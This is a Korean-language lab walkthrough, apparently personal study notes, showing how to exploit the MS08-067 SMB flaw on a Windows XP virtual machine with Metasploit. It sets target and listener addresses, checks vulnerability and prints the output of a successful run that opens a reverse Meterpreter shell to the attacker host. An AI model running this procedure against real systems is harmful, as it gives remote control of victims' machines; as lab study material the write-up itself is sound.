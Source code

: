 ## 공격 대상 지정하기 
- RHOSTS는 공격대상 시스템의 IP주소를 설정한다. 
- RPORT에는 SMB 프로토콜 포트인 445포트를 지정한다. 
- LHOST에는 스캔을 수행하는 시스템(공격자측)의 IP주소를 지정한다. 


```sh
msf6 > set RHOSTS 192.168.56.104
msf6 > set RPORT 445
msf6 > set LHOST 192.168.56.102
```

- LHOST 부분이 중요하다. 이 것을 제대로 설정하지 않으면, (예를 들면 그냥 기본 값으로 두면)  스캔 대상 측의 SMB 서비스가 다운된다! 다운된 후에는 Windows XP측에서는 445포트가 열려있는데 공격측에서는 Nmap스캔을 해도 445포트가 열려있다고 나오지 않는다. 이 원인을 알아내느라 고생했다...
- 출처: https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/ms08_067_netapi.md 에서 원인을 찾았다. 다음과 같이 적혀있다. 

```
Unsafe configuration of LHOST

Although ms08_067_netapi is reliable enough for a memory corruption exploit, it has its own denial-of-service moments. One scenario is when the LHOST option is incorrectly configured, which could result the SMB to crash.
```

## 체크수행
취약하다는 결과를 볼 수 있다. 

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > check
[+] 192.168.56.104:445 - The target is vulnerable.

```

## exploit수행 
run 을 실행하면 exploit 코드가 실행된다. exploit에 성공하여 meterpreter 셸이 실행된 것을 볼 수 있다. 

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 192.168.56.102:4444 
[*] 192.168.56.104:445 - Automatically detecting the target...
[*] 192.168.56.104:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.56.104:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.56.104:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 192.168.56.104
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.104:1043) at 2023-08-14 23:38:01 -0400

meterpreter > 


```
